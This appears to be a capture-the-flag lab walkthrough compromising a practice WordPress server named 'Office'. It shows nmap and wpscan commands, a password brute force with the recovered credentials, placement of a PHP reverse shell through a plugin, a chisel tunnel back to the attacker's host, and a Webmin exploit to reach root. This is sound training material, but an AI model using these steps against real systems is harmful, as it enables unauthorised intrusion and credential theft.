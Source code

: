 In this walkthrough, we'll go over one of the machines called ***Office*** from the challenge labs on [Cyberseclabs.co.uk](https://www.cyberseclabs.co.uk).

![Office IP](officeIP.png)

Let's start the scanning process with nmap:
```bash
nmap -sTV -sC -p- -n 172.31.3.1
```
We'll see that there are three ports open:
```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-29 11:58 EDT
Nmap scan report for 172.31.3.1
Host is up (0.057s latency).

PORT      STATE    SERVICE          VERSION
22/tcp    open     ssh              OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e2:3f:6c:4e:6d:8b:dc:59:b7:cb:66:64:27:f9:22:86 (RSA)
|   256 ee:be:37:f3:75:4e:38:2a:a9:99:e0:18:1a:b8:d1:41 (ECDSA)
|_  256 7f:72:a7:29:be:30:9e:5e:aa:b9:fc:be:09:d2:8b:3a (ED25519)
80/tcp    open     http             Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: WordPress 5.4.1
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Dunder Mifflin &#8211; Just another WordPress site
443/tcp   open     ssl/http         Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
| ssl-cert: Subject: commonName=office.csl/organizationName=Dunder Mifflin/stateOrProvinceName=PA/countryName=US
| Not valid before: 2020-05-08T20:01:51
|_Not valid after:  2021-05-08T20:01:51
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
10000/tcp filtered snet-sensor-mgmt
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.52 seconds

```
Let's add this to our /etc/hosts file as follows:
```bash
172.31.3.1 office.csl
```
It looks like a WordPress site is being served on port 80:
![Office WP](office-index-html.png)

Since this is a WordPress site, we can use wpscan to scan all the plugins with `wpscan --url http://office.csl --enumerate ap --plugins-detection aggressive --max-threads 50`
![WP Plugin Scan](office-wpscan.png)

Previously, I tried to exploit the plugin ***wp-file-manager***, but that didn't go anywhere. Now, we can perform a user enumeration with the following `wpscan --url http://office.csl --enumerate u`
![WP User Enum](office-wpscan-userenum.png)

It looks like we have a user called ***dwight*** and we can try to brute force the login with this user name and the wordlist of rockyou.txt `wpscan --url http://office.csl --passwords /usr/share/wordlists/rockyou.txt --usernames dwight`
![WP Bruteforce](office-wpscan-bruteforce.png)

We have a successful hit so the found creds are:

Username | Password
--------- | ---------
dwight | cowboys1

By using the above credentials, we can successfully log into the admin panel. However, we need to download and install ***php_everywhere*** plugin for this machine. After installing the plugin, let's add a new page and then copy the PHP reverse shell from [Pentestmonkey GitHub Repo](https://github.com/pentestmonkey/php-reverse-shell) into the PHP Everywhere text box (don't forget to change the IP address and port to yours) and type "php_everywhere" in the body of the page:
![PHP Everywhere Reverse Shell](office-php-everywhere.png)
![PHP Everywhere Page Preview](office-wpscan-php_everywhere.png)

Now, start a revershell and in the WordPress site, hit "Preview". We should receive a shell back:
![Office Foothold](office-intialfoothold.png)

It looks like we are www-data and we need to perform a lateral movement to become dwight user so let's look at `sudo -l` which shows that we can run bash as dwight:
![Office Sudo -l](office-wwwdata-sudo-l.png)

We can run the following script to become dwight `sudo -u dwight /bin/bash`:
![Office Dwight](office-dwight.png)

From here, there are a few things that I check manually such as locally open ports with `netstat -tulpn`:
![Office Open Ports](office-netstat.png)

It looks like the port 10000 is open so we can forward this port back to our local Kali machine with [Chisel](https://github.com/jpillora/chisel)
1. On Kali, I started a chisel server: `./chisel_1.7.6_linux_amd64 server -p 1111 --reverse` ![Chisel Server](office-chisel-server.png)
2. On the target, I started a chisel client: `./chisel_1.7.6_linux_amd64 client 10.10.0.18:1111 R:9050:127.0.0.1:10000` ![Chisel Client](office-chisel-client.png)

When we visit http://127.0.0.1:9050/session_login.cgi, I see that Webmin is running:
![Office Webmin](office-webmin.png)

At this point, we can use Metasploit to exploit the Webmin server, but let's do it manually without Metasploit. 

We can clone the following GitHub repo from [Webmin CVE-2019-15107](https://github.com/MuirlandOracle/CVE-2019-15107) and just run the exploit as shown below:

![Office Root](office-manual-webmin.png)

[<= Go Back to Cyberseclabs Walkthrouhgs](CyberseclabsWalkthroughs.md)

[<= Go Back to Main Menu](index.md)
